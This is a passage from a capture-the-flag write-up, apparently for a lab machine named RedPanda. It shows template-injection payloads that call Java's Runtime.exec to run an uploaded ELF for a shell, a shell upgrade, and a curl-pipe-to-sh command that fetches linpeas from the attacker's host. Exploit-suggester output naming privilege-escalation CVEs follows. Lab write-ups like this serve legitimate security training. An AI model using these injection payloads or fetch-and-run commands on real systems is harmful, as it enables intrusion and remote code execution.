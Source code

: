 ```
```
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 exploit.elf")}
```
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./exploit.elf")}
```
Awesome we get a shell but its pretty bad so lets upgrade it and grab our user flag!

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```console
woodenk@redpanda:/home/woodenk$ cat user.txt
cat user.txt
e42c0d8eb6f8e80b686462868084ab43
woodenk@redpanda:/home/woodenk$ 
```

Next thing I did was run linpeas from the /tmp folder and we get a few interesting things back.

```console
└──╼ [★]$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.65.161 - - [18/Aug/2022 23:09:01] "GET /linpeas.sh HTTP/1.1" 200 -
```
```console
curl http://10.10.14.30:8000/linpeas.sh | sh
```
I tried for awhile on the CVE but I wasnt having any luck. I didn't even try the others but maybe there was a vector in there somewhere.

in the credits folder we can see credentials but as the user woodenk I wasnt able to access it.

```
Vulnerable to CVE-2021-3560


╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
```
